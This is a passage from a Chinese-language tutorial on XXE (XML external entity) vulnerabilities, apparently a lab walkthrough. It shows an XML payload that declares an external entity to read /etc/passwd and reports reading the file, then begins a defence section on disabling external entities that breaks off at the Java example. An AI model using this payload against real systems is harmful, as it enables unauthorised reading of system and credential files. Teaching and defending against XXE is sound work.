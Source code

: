 这里需要将原先下面输出的内容给删除，然后输入上payload。

payload：

```xml
<?xml version="1.0"?>

<!DOCTYPE ANY [ 

<!ENTITY b SYSTEM "file:///etc/passwd" >

]>

<x>&b;</x>
```



### 7.1.4.**测试效果**

这里就可以看到我们成功读取到etc下的passwd内容。

![img](assets/8LYUwqGATdSoHBp.jpg) 

# 8.**XXE漏洞防御**

## 8.1.**禁用外部实体**

使用开发语言提供的禁用外部实体的方法。

PHP：

libxml_disable_entity_loader(true);

JAVA:
